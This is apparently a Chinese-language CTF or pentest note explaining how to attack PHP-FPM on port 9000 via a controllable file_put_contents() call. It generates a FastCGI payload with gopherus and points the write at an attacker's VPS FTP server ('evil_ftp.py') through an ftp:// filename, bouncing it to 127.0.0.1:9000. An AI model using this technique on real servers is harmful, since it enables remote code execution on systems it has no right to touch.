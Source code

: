 如果开启了`FPM/FastCGI`

我们就可以使用`file_put_contents`和`ftp`配合打内网

当然，我们需要注意，他开启的端口是多少，到时候生成payload的时候需要按照这个端口进行更改

默认端口是**9000**

#### 生成payload

使用`gopherus`来生成payload，（工具在KALI中）

```python
python gopherus.py --exploit fastcgi
```

之后需要指定一个已知路径的.php文件

默认是`/var/www/html/index.php`

之后需要输入需要执行的命令

之后得到的payload，只需要`_`之后的内容

#### 搭建ftp服务

在vps上面使用vps搭建简易的ftp服务

`evil_ftp.py`

#### 触发命令

在vps上监听端口

利用`file_put_contents`的filename设为`ftp://aaa@ip/123`, data设为`payload`

如果目标主机上正在运行着 `PHP-FPM`，并且有一个`file_put_contents()`函数的参数是可控的，我们上面是利用了`gopher://`协议，但是`file_put_contents()`函数并不支持他，这里可以使用的是`ftp`协议

这里使用的是 `FTP` 协议的被动模式：客户端试图从`FTP`服务器上读取/写入一个文件，服务器会通知客户端将文件的内容读取到一个指定的`IP`和端口上，我们可以指定到`127.0.0.1:9000`，这样就可以向目标主机本地的 `PHP-FPM` 发送一个任意的数据包，从而执行代码，造成`SSRF`

参考：[通过一道CTF题学习php-fpm攻击_白帽子技术/思路_i春秋社区-分享你的技术，为安全加点温度. (ichunqiu.com)](https://bbs.ichunqiu.com/thread-60888-1-1.html)